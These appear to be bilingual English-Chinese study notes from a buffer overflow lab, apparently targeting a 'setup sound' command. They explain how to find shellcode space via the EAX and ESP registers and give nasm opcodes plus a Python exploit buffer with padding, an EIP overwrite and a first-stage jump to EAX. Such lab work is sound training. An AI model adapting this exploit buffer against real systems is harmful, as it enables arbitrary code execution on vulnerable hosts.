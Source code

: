 ![](./images/bof/a845958d-96c6-43f9-ba57-c731a0bf7611.jpg)

![](./images/bof/08addaa6-49f3-4898-8c5e-22c7797a5810.png)

## locate shellcode space
+ find if there are any registers that point to our buffer at the time of the crash.查找有没有哪个寄存器的值指向我们的缓冲区
+ identify possible JMP or CALL instructions that can redirect the execution flow to our buffer. 通过JMP或者CALL指令，将代码执行流程转到我们缓冲区内
+ crash时可看到，ESP指向缓存区最后（7个C）7个字节
无法继续增加buffer size，会引起其他crash甚至无法覆盖EIP、。
+ EAX register seems to point to the beginning of our buffer, including the “setup sound” string.EAX指向buffer 的开头，包含"setup sound"
+ eax前有12bytes(setup sound)，查找eax 12byte后地址，写 shellcode
+ esp可用空间7 bytes，跳转至eax地址执行shellcode；

```
msf-nasm_shell
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
```
运行后，ESP指向first_stage
```
eip = "\x42" * 4
padding = "\x41" * 4368
first_stage = "\x83\xC0\x0C\xff\xe0\x90\x90"
buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```
